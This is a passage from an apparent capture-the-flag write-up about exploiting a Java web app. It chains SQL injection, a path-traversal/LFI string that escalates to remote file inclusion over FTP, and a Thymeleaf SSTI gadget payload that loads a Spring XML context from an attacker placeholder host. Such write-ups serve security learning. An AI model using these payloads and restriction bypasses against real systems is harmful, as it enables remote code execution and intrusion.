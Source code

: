 Now with admin, we can:

1. Create messages and exploit SQLi in insert query
2. Perform SSTI in /notify endpoint

While I was trying to get file write in the SQLi, adragos found path traversal
\+ undocumented LFI to FTP in the /notify endpoint.

`?fname=..%5c..%5c..%5c/endpoint/test.txt%23`

(`\` will fail in catalina reverse proxy, and `#` strips out the `.html`
extension (not necessary for final payload though))

The additional `..\` is apparently parsed such that the hostname of
`file://host/path` can be controlled. This is super cool because we can
escalate to RFI, which bypassed the need for Postgres file write.

(from here on adragos already solved everything, but since I had to solve it I
tried on my own anyway)

So I hosted an FTP server to load the attacker template.

## Part 3: SSTI

Thymeleaf 13.0.2 is quite annoying cos it added a lot of restrictions to SSTI
in "unsafe" context, by preventing instantiation of several common key classes.
This was also my first time doing Thymeleaf SSTI (or Java SSTI in general) so I
was quite lost. After adragos solved the challenge I peeked at his payload then
tried to make my own.

The trick is to look for gadgets in the other libraries loaded in the app, that
allow you to instantiate classes with calls such as
`constructor.newInstance(args)` etc.

My final payload:
```
[[${T(
org.postgresql.util.ObjectFactory
).instantiate(
"".getClass().forName(
"org."+"springframework.context.support.FileSystemXmlApplicationContext"
),
"org."+"springframework.context.support.FileSystemXmlApplicationContext",
null,
true,
"http://<attacker>:<port>/poc.xml"
)
}]]
```

`T(class)` is quite useful for instantiating classes from qualified name, but this
is blocked by Thymeleaf restrictions, so I can't just instantiate
`java.lang.Runtime`.

`"".getClass().forName(class)` also can be used to create classes and isn't
blocked by Thymeleaf I think? But the class instantiated from here is useless
cos I can't call any methods on it for some reason? (need to research more)
